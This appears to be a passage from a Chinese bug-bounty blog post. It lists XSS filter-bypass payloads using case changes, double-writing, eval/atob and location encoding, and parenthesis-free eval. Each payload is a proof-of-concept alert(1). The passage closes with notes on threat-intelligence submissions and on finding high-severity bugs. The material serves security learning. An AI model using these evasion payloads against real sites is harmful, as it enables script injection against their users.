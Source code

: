 ##### bypass姿势

```
<!-- 空格被过滤 -->
<img/src="1"/onerror=alert(1)>

<!-- 双写绕过 -->
<iimgmg src=1 oonerrornerror=aimglert(1)>

<!-- 大小写绕过  -->
<iMg src=1 oNerRor=alert(1)>

<!-- 利用eval() -->
<img src=1 onerror="a=`aler`;b=`t(1)`;eval(a+b);">
<img src=1 onerror=eval(atob('YWxlcnQoMSk='))>

<!-- 利用location -->
<img src=1 onerror=location='javascript:%61%6C%65%72%74%28%31%29'>
<img src=1 onerror=location='javascript:\x61\x6C\x65\x72\x74\x28\x31\x29'>
<img src=1 onerror=location="javascr"+"ipt:"+"%61%6C%65%72%74%28%31%29">

<!-- 括号被过滤 -->
<img src=1 onerror="window.onerror=eval;throw'=alert\x281\x29';">

<!-- onerror=被过滤 -->
<img src=1 onerror     =alert(1)>
<img src=1 onerror
=alert(1)>

<!-- 属性被转换为大写 -->
<img src=1 onerror=alert(1)>

<!-- 编码后被检测 -->
<img src=1 onerror=alert(1)>
```

#### 威胁情报的提交

这块我也没有经验，给大家分享两篇文章吧。。。信息收集到了还是可以试试提交的

[https://mp.weixin.qq.com/s/v2MRx7qs70lpnW9n-mJ7\_Q](https://mp.weixin.qq.com/s/v2MRx7qs70lpnW9n-mJ7_Q)

[https://bbs.ichunqiu.com/article-921-1.html](https://bbs.ichunqiu.com/article-921-1.html)

可以试一试加一加各种羊毛群，反手撸一手羊毛群的羊毛。

### 对于挖掘高危、严重级别漏洞的一些思考

 因为一直以来挖到高危、严重的数量寥寥无几，基本上就是一直在捡一些中低危漏洞，这段时间也看了很多牛叉的漏洞报告，想聊一聊我的思考。

##### 1.自动化信息收集的能力

这里说的信息收集更多的是如何利用已有的工具进行快速自动化的收集和整理，既要做到速度快，还要做到全面收集不遗漏信息，很多时候这个过程本身就是在发现漏洞。
